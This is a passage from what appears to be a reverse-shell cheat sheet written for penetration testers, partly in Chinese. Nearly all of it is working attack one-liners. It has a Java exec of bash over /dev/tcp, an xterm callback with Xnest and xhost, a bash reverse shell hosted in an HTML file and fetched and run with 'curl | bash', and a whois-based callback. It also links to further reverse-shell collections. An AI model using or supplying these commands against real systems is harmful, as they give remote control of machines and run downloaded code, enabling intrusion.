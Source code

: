 ### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

[Untested submission from anonymous reader]

### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```shell
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

```shell
Xnest :1
```

You’ll need to authorise the target to connect to you (command also run on your host):

```shell
xhost +targetip
```

### Further Reading

Also check out [Bernardo’s Reverse Shell One-Liners](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html).  He has some alternative approaches and doesn’t rely on /bin/sh for his Ruby reverse shell.

There’s a [reverse shell written in gawk over here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-122387).  Gawk is not something that I’ve ever used myself.  However, it seems to get installed by default quite often, so is exactly the sort of language pentesters might want to use for reverse shells.

### Curl

Kali开启apache服务，把bash命令写入html文件，只要文本包含bash一句话即可

```bash
bash -i >& /dev/tcp/192.168.2.102/7777 0>&1   # 将bash反弹木马写入html文件
curl 192.168.2.103/bash.html|bash   # 使用curl命令执行此shell
```

### Whois

whois反弹的shell只能执行后面带的命令

```shell
whois -h 192.168.2.102 -p 4444 `pwd`
```
